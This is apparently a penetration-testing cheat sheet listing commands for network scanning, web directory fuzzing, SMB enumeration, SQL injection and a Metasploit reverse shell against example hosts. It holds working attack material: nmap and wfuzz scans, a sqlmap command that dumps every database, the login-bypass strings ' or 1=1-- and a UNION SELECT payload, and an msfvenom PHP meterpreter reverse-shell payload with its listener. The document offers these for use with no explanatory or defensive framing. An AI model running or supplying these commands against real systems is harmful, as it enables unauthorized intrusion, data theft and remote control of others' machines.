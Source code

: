 # Basic Enumeration

#### NMAP check for live hosts
- `sudo nmap -sn 10.0.0.0/24 -oN discovery.nmap`

#### sort
- `cat discovery.nmap | grep "for" | cut -d " " -f 5 > ips.txt` 

#### NMAP scan
- `sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open`

#### NMAP Scan
- `sudo nmap -sC -sV -oA testbox 10.0.0.1`

####Other type scans
- `nc -nv -u -z -w 1 192.168.1.44 1300-1500`

### Web Directory Enumeration
#### gobuster
- `gobuster dir -u http://10.0.0.1 -w /usr/share/wordlists/dirb/big.txt`

#### wfuzz
######  directory    
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hc 404 -u 10.0.0.1/FUZZ`  
###### filename + extension  
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/extensions_common.txt --hc 404 -u 10.0.0.1/FUZZ%FUZ2Z`  
###### deeper enumeration  
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/extensions_common.txt --hc 404 -u 10.0.0.1/FUZZ/FU2Z%FUZ3Z`

### SMB Enumeration

- `enum4linux -a 10.0.0.1`
- `smbclient -U "user" -L 10.0.0.1`
- `showmount -e 10.0.0.1`
- `sudo mount -t cifs //10.0.0.1/share$ smb/ -o user="user"`
- `smbclient \\\\10.0.0.1\\sharename -U guest`

### LDAP Enumeration

- `jxplorer`

### SQLMAP 
- if there is a parameter then one could use sqlmap
- e.g http://10.0.0.1/?id=2
- use burp to get the request page and save it as req.txt
- then run
- `sqlmap -r req.txt --tamper=space2comment --dump-all --dbms mysql`

- try `' or 1=1--` in the username and password field
- enumrate how many columns there are
- `user='UNION SELECT NULL,'test',NULL,NULL--&password=admin`

### msfvenom and msfconsole reverse shell

- `msfvenom -p php/meterpreter_reverse_tcp lhost=10.0.0.1 lport=9998 -o moon.php`

###### msfconsole
- `use exploit/multi/handler`
- `set payload php/meterpreter_reverse_tcp`
- `set LHOST 10.0.0.1`
- `set LPORT  9998`
- `run`



